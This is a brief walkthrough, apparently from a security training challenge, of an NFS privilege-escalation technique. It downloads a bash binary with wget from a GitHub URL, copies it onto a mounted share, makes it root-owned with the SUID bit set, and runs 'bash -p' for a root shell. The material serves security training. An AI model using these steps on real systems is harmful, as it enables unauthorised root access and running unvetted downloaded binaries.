   
First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

  
Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

	Bash executable

`wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`.


How to set SUID permissions to a file

	chmod +s <filename>
	chmod 4700 <executable>

We will set SUID permission to the file in NFS mount and when we run it as normal user 

we will get root shell

commands to run bash

	./bash -p

 -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

